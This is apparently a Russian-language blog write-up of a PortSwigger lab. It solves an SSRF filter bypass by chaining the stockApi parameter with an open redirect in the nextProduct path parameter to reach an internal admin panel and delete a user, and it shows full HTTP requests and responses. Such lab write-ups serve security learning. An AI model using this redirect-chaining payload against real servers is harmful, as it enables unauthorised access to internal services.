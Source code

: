 ```yaml
---
title: "SSRF with filter bypass via open redirection vulnerability"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-filter-bypass-via-open-redirection"
classes: wide
---
```

{% raw %}
Для решения лабы нужно удалить пользователя `carlos`, получив доступ к кабинету админа `http://192.168.0.12:8080/admin`.

```
https://0a810022044da5f780d2817c00320062.web-security-academy.net/
```

## Solution

Известно, что тут есть узявимость **SSRF**, а значит нужно найти запрос, который содержит в себе адрес удаленного сервиса. Немного погуляв по сайту, нашел следующий запрос:

```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Могу предположить, что через `stockApi` можно передать нужный адрес:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 48

"Invalid external stock check url 'Invalid URL'"
```

Ну не все так просто, как могло показаться(

На странице товара увидел кнопку `Next product`. Она отправляет следующий запрос:

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2
```

В параметре `path` указывается путь до нужно страницы. Попробую подставить путь до картинки:

```http
GET /product/nextProduct?currentProductId=1&path=/image/productcatalog/products/59.jpg HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=67v801jAftj4fL192RkkEgHPX4BfYN95; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 302 Found
Location: /image/productcatalog/products/59.jpg
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Меня перенаправило, а значит тут есть узявимость **Open redirection**. Попробую добавить `path=http://192.168.0.12:8080/admin` в запрос.


```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3177

...

```

Получил ответ. А в нем и нужный запрос для удаления пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/1.jpg){: height="200" .align-center}

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3019

...

```

Пользователь удален, а значит лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/2.png){: height="200" .align-center}
{% endraw %}
